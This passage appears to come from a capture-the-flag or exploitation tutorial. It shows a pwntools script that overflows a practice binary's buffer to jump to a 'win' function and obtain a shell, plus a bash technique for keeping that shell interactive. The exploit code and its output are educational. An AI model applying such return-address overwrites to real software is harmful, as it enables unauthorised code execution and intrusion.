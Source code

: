 Let's test using a Python-script and `pwntools`:

*Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('./rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

io = process('rip')
io.recvuntil(b"> ")
io.sendline(payload)
io.interactive()
```

Let's run the Python-program:

```bash
$ python solve.py
[+] Starting local process './rip': pid 770889
[*] Switching to interactive mode
nope.
$ # Our Python-script is waiting for I/O thanks to io.interactive()
$ lsb_release -a
No LSB modules are available.
Distributor ID:    Kali
Description:    Kali GNU/Linux Rolling
Release:    2022.2
Codename:    kali-rolling
$
```

It works! The important part here is the `io.interactive()`-call. This makes sure that our program doesn't instantly exit and let's us interact with the `/bin/sh`-process started by `win`.


### Interactivity in `bash`

The easy fix is to always make a `pwntools`-based exploit script and use `io.interactive()`, but that's not always feasable, so how can we do the same thing when testing our exploit directly in `bash`?

There are multiple ways of doing it, but one easy way is to use `cat` like this:

```bash
$ (cat payload; cat) | ./rip
Enter password
> nope.

lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2022.2
Codename:       kali-rolling
```
